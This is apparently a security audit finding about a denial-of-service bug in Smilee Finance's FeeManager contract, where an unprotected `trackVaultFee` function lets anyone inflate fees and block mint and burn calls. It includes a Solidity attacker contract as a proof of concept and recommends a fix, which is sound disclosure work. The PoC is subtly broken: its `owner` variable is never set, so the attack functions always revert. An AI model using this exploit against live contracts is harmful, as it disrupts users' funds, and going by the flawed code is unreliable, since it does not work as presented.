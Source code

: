 Old Glossy Aphid

high

# `IG.sol` mint and burn functions are vulnerable to DOS attack

## Summary
the `trackVaultFee` function in `FeeManager.sol` can be called by anybody to add to the `feeAmount` of a vault, which essentially allows anyone to set the `feeAmount` to a very high value causing subsequent calls to this function to revert

https://github.com/sherlock-audit/2024-02-smilee-finance/blob/main/smilee-v2-contracts/src/FeeManager.sol#L218

## Vulnerability Detail
the `trackVaultFee` function in the `feeManager` contract is used to keep track of the fees accrued by the vaults. However, this function is unprotected and can be called by anyone provided the function call `IDVP(msg.sender).vault()` is equal to the function argument `address vault`

## Impact
the impact of that an attacker can cause all calls to the `mint` and `burn` functions to revert

## Code Snippet
consider a contract that can be used to execute the attack

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.15;

interface IFeeManager {
    function trackVaultFee(address vault, uint256 feeAmount) external;
}

contract Attacker {
    address private vault_;
    address private owner;

    function vault() external view returns (address) {
        return vault_;
    }

    function set_vault(address vaultAddress) external {
        require(msg.sender == owner, "Only Owner");
        vault_ = vaultAddress;
    }

    function attack(address feeManager, uint256 feeAmount) external {
        require(msg.sender == owner, "Only Owner");
        IFeeManager(feeManager).trackVaultFee(vault_, feeAmount);
    }

}
```

## Tool used

Manual Review

## Recommendation
store a mapping of dvp addresses in the fee manager contract to allow only trusted dvp contracts to call the `trackVaultFee` function
